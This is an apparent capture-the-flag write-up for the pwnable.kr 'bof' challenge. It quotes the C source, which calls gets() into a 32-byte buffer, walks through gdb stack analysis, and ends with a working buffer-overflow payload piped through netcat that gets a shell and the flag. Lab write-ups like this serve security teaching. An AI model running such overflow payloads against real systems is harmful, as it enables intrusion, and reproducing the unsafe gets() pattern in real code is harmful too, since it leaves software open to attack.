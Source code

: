 # BOF
Let's jump into the challenge.

Download the respective files from the following links:
```
http://pwnable.kr/bin/bof
http://pwnable.kr/bin/bof.c
```

Lets look into the content of bof.c
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

* ```func``` is passed hex value ```0xdeadbeef``` as input.  This parameter is later compared to ```0xcafebabe```, and if we can enter this if statement we can get the flag. So we need to try to change the content of the key variable in the function, so that the if test will resolve to true. 

* If the test resolves to true we will get a bash shell.We need to set up netcat to get the shell.

```bash
nc pwnable.kr 9000
```

* In this challenge, we will be using the ```gets()``` function to read input from stdin into overflowme array.   

* ```gets``` -> Reads a line from stdin into the buffer pointed to by s. gets is also prone to buffer overflow and hence we can overwrite the stack.

* Lets check our executable to know the address of ```0xdeadbeef``` and overwrite it. We will use ```gdb``` for this purpose.

## Analysing executable with GDB

The GNU Debugger, also known as ```gdb``` is a portable debugger that runs on many Unix-like systems.

I started gdb.

```
gdb bof 
```

and made my first breakpoint at ```main``` function and run the program.

```
(gdb) break main
Breakpoint 1 at 0x68d
run
```

Now we need to analyze the ```func``` function.Use gdb ```disassemble``` command for this.

![gdb](gdb.png)

We can see the ```cmpl (Compare Logical)``` instruction at  ```0x80000654```, Lets set a break point exactly before it : 

```
break *0x80000654
```

Give any random input and now we will check the content of the stack.

```
(gdb) c
Continuing.
overflow me : 
AAAAAAAAAAAAAAAAAAAAAAA
```

We will check the first 50 entries of the stack with the help of ``` x/50wx $esp``` command.

```c
(gdb) x/50wx $esp
0xffffcf30:	0xffffcf4c	0x00000000	0x00000000	0xcd106000
0xffffcf40:	0x00000009	0xffffd209	0xf7ddc679	0x41414141
0xffffcf50:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf60:	0x00414141	0x00000000	0x56556ff4	0xcd106000
0xffffcf70:	0x00000000	0xf7ddc7ab	0xffffcf98	0x5655569f
0xffffcf80:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffcf90:	0xf7f84000	0xf7f84000	0x00000000	0xf7dc4fa1
0xffffcfa0:	0x00000001	0xffffd034	0xffffd03c	0xffffcfc4
0xffffcfb0:	0x00000001	0x00000000	0xf7f84000	0xf7fe571a
0xffffcfc0:	0xf7ffd000	0x00000000	0xf7f84000	0x00000000
0xffffcfd0:	0x00000000	0xe76898de	0xa0691ece	0x00000000
0xffffcfe0:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffcff0:	0x00000000	0xf7feade0
```

By looking at the stack we need to fill 52 bytes to reach the address of ```0xdeadbeef``` and then overwrite it to ```0xcafebabe```.

## Getting the Shell

Our system is little endian, so remember to reverse the bytes of ```\0xcafebabe```.

```c
➜  Bof git:(main) ✗ (python -c 'print("A"*52+"\xbe\xba\xfe\xca")'; cat) | nc pwnable.kr 9000
whoami
bof
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)

```

and yipee got the flag.


